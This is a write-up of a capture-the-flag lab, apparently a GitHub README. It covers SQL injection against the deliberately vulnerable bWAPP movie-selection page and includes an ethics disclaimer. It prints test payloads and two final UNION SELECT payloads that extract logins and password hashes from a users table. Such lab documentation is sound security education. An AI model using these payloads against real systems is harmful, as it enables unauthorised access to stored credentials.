 # SQL Injection (GET/Select)
---

Choose your language / Выберите язык:

- 🇬🇧 [English](README.en.md)
- 🇷🇺 [Русский](README.md)

# Disclaimer
---

**The text was written and translated by the author manually. A language model was used for formatting and stylistic editing.**

**This material is provided for educational and research purposes only. 
I do not encourage or call for unauthorized access to information systems or violation of the law. 
In my opinion, one of the most effective ways to combat cybercrime is to educate both everyday users and managers, as well as developers of digital products about common vulnerabilities that could potentially be exploited by malicious actors to carry out unlawful acts.**

**⚠️ All actions described in this document were performed within an authorized research environment (CTF/test platform), without violating the rights of third parties or current legislation.**

**Unauthorized interference with computer systems, violation of data storage and processing rules, and other forms of so-called "black-hat" hacking are contrary to law and the ethics of information security.**

**I adhere to the principles of ethical research and responsible vulnerability disclosure.**

---

# Introduction
---

The Buggy Web Application (BWAPP) offers a set of challenges based on the ***SQL Injection vulnerability***. (**A03:2021 - Injection**)

***SECURITY LEVELS COVERED***
- Low

# Target
---

![[SqliGetSelectTarget.png]]

# Functionality
---

The application allows us to choose a movie from the list provided:

![[SqliGetSelectFunction.png]]

### Probable SQL query:

```SQL
SELECT * FROM movies WHERE id="$variable"
```

# Exploitation
---

Testing with standard payload `1' OR 1=1 -- ` returned an error, yet the `1 OR 1=1 -- ` didn't fail:

![[SqliGetSelectTest.png]]

Passing a `UNION` based payload earlier used in [[19.09.2025/SQL Injection (GET Search)/README.en]] didn't return any errors, yet did not allow to retrieve any information from the (likely) users table:

![[SqlietGetSelectTest2.png]]

Passing `UNION` based payloads with `ORDER BY` additions allowed to retrieve data from the `users` table by modifying the `ORDER BY` parameter:

![[SqliGetSelectPwd.png]]

![[SqliGetSelectUsers.png]]

## Final payloads

Retrieving hashed password entries:

```SQL

1 UNION SELECT login, password, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 2 --
 
```

Retrieving login entries:

```SQL

1 UNION SELECT password, login, NULL, NULL, NULL, NULL, NULL FROM users ORDER BY 2 --
 
```
